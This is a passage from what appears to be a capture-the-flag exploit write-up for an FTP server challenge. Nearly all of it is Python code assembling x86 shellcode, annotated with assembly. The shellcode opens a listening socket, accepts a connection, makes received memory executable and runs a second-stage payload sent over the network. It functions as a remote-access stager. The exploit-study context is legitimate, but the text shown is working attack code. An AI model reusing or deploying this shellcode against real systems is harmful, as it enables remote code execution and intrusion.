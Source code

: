 ``` python
  shellcode += "\x8B\xD9"                           # MOV EBX,ECX <contains an address>
  shellcode += "\xB3\x34"                           # MOV BL, 0x34
  shellcode += "\x8A\xFB"                           # MOV BH, BL  <address now valid>
  # set up the stack for the call to `socket`
  shellcode += "\x6A\x06"                           # PUSH 6
  shellcode += "\x6A\x01"                           # PUSH 1
  shellcode += "\x6A\x02"                           # PUSH 2
  # invoke the call to `socket`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # save our socket handle
  shellcode += "\x89\xC7"                           # MOV EDI, EAX
  # Find sockaddr
  shellcode += "\x89\xD9"                           # MOV ECX, EBX
  shellcode += "\xB5\x74"                           # MOV CH, 0x74
  # adjust the port number by bumping it up one to 22
  shellcode += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
  # adjust the call pointer to reference `bind`
  shellcode += "\xB3\x54"                           # MOV BL, 0x54
  # prepare the parameters on the stack for the `bind` call
  shellcode += "\x6A\x10"                           # PUSH 0x10
  shellcode += "\x51"                               # PUSH ECX
  shellcode += "\x50"                               # PUSH EAX
  # invoke the call to `bind`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `listen`
  shellcode += "\xB3\x5C"                           # MOV BL, 0x5C
  # prepare the parameters on the stack for the `listen` call
  shellcode += "\x6A\x7F"                           # PUSH 0x7F
  shellcode += "\x57"                               # PUSH EDI
  # invoke the call to `listen`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `accept`
  shellcode += "\xB3\x24"                           # MOV BL, 0x24
  # prepare the parameters on the stack for the `accept` call
  shellcode += "\x57"                               # PUSH EDI
  # invoke the call to `accept`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # prepare for the malloc call and call it
  shellcode += "\x8B\xF8"                           # MOV EDI, EAX
  shellcode += "\x66\xBB\xD4\x3D"                   # MOV BX, 0x3DD4
  shellcode += "\x8A\xE0"                           # MOV AH, AL
  shellcode += "\x50"                               # PUSH EAX
  # invoke the call to `malloc`
  shellcode += "\xFF\xD3"                           # CALL EBX
  shellcode += "\x59\x51"                           # POP ECX, PUSH ECX
  # save the memory handle, and push it up ready for later use
  shellcode += "\x8B\xF0"                           # MOV ESI, EAX
  shellcode += "\x50"                               # PUSH EAX
  # set up virtual protect call
  shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
  shellcode += "\x55"                               # PUSH EBP
  shellcode += "\x6A\x40"                           # PUSH 0x40
  shellcode += "\x51"                               # PUSH ECX
  shellcode += "\x56"                               # PUSH ESI
  # call virtual protect
  shellcode += "\xFF\xD3"                           # CALL EBX
  # prep the call for recv
  shellcode += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
  shellcode += "\x57"                               # PUSH EDI
  # call recv
  shellcode += "\xFF\x13"                           # CALL [EBX]
  # invoke the payload
  shellcode += "\xFF\xE6"                           # JMP ESI
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization